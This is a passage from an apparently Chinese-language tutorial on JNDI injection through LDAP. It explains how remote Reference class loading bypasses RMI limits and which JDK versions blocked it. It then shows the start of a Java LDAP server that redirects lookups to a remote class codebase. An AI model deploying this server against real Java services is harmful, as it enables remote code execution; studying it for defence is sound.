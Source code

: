 但是需要注意的是JNDI不仅可以从通过RMI加载远程的Reference工厂类，也可以通过LDAP协议加载远程的Reference工厂类，这就可以加以利用，来绕过限制.

但可惜的是在之后的版本Java也对LDAP Reference远程加载Factory类进行了限制，在JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase属性的值默认值也变为false，对应的CVE编号为：**CVE-2018-3149**

服务端maven需要添加如下依赖：



java

```java
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>4.0.0</version>
</dependency>
```

**服务端ldap_server.java**



java

```java
package JNDI;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class ldap_sever {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8081/#test"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

```